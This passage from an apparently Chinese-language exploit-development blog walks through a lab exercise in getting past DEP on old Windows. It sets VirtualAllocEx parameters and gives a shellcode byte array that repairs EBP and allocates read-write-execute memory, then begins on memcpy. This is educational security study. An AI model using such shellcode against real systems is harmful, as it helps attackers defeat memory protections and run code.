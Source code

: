 首先明确一下我们各参数的值：

```c
lpAddress = 0x00030000; // 只要选择一个未被占用的地址即可
dwSize = 0xFF; // 够用
flAllocationType = 0x00001000; // 参考MSDN
flProtect = 0x00000040; // 可读可写可执行，参考MSDN
```

由于EBP被溢出破坏，所以一开始还是修复EBP。目前shellcode如下：

```c
char shellcode[]=
// 180	nop
...
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	call VirtualAllocEx
"\xf4\x9a\x80\x7c"
// 4	nop
"\x90\x90\x90\x90"
// 4	-1 (current process)
"\xff\xff\xff\xff"
// 4	lpAddress
"\x00\x00\x03\x00"
// 4	dwSize
"\xff\x00\x00\x00"
// 4	flAllocationType
"\x00\x10\x00\x00"
// 4	flProtect
"\x40\x00\x00\x00"
;
```

编译调试，成功申请到内存（注意下图右侧寄存器EAX正是`0x00030000`）：

![Bildschirmfoto 2018-09-30 um 9.22.10 AM.png]({{ site.url }}/images/0day/67FB093FD959F26396635A2B8BE4FA52.png)

我们也可以在OD中查看内存映射：

![Bildschirmfoto 2018-09-30 um 9.12.20 AM.png]({{ site.url }}/images/0day/AE25055F28935546AA652FFA447E9731.png)

是可执行的！

接下来就是memcpy。它位于`ntdll.dll`中，我们看一下：

```c
void *memcpy(  
   void *dest,  
   const void *src,  
   size_t count   
);  
```

![Bildschirmfoto 2018-09-30 um 9.13.49 AM.png]({{ site.url }}/images/0day/0D3E0F6FE0D20DEFA7E47AC77DB9DCD1.png)

